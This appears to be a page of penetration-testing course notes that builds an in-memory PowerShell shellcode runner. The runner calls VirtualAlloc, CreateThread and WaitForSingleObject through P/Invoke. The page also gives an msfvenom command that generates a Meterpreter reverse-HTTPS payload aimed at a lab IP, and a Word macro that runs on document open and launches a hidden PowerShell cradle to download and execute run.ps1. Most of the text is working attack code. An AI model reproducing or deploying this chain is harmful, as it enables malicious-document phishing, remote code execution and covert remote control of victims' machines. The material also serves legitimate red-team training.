 ## Building our Shellcode

We can now start building our shellcode same as before in the section [Creating Our Shellcode](Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [Creating Our Shellcode](Creating%20Our%20Shellcode.md) section.

Our final code will look something like so:
```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

This may get us a shell, but we need to trigger this from a word macro.
For this, we'll create a cradle that will download our code into memory and execute it.

The code for the cradle will look as follows:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.150/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

However, we're still not completely finished yet.
Essentially, with our current code, the powershell will terminate before it even starts, this is because our shell dies as soon as the parent Powershell proccess terminates.

To solve this, we will instruct Powershell to delay it's terminatin until the shell fully executes.
For this, we can use Win32 WaitSingleObject API to pause the script and allow meterpreter to finish.
We will now proceed to update our script using P/Invoke and invoke the declared function:

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
	[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	
	[DllImport("kernel32.dll", SetLastError=true)] 
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

With this, we have successfully created a shellcode in memory using Powershell:
![ps-in-mem-proof](../../../Screenshots/ps-in-mem-proof.png)
